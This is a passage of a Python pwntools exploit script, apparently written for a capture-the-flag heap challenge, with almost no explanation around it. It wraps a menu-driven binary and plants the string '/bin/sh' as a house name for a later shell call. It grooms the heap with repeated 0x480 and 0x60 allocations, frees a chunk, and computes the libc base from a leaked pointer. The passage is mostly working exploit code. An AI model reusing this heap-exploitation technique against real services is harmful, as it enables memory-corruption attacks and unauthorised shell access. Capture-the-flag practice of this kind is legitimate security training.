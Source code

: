 ```python
	p.sendlineafter(": ", str(idx))


def view_person(house, idx):
	print("view person")
	p.sendlineafter(">> ", "6")
	p.sendlineafter(": ", str(house))
	p.sendlineafter(": ", str(idx))


def party(house):
	print("party")
	p.sendlineafter(">> ", "7")
	p.sendlineafter(": ", str(house))


def destroy(house):
	print("destroy")
	p.sendlineafter(">> ", "8")
	p.sendlineafter(": ", str(house))



create_house("AAAA", 5, "AAAA")
create_house("/bin/sh", 5, "ls")




for i in range(7):
	create_person("IIII", 0x480, "DDDD")
	add(0, 0)


create_person("AAAA", 0x10, "AAAA")


view_person(0, 6)


remove(0, 5)

view_house(0)



for i in range(28):
	p.recvline()


dat = p.recvline().strip().split(" ", 8)	# libc leak here


libc.address = u64(dat[-1].ljust(8, "\x00")) - 0x1e4ca0


print("libc address", hex(libc.address))


for i in range(10):
	create_person("A", 0x60, "B")
	add(1, 1)

```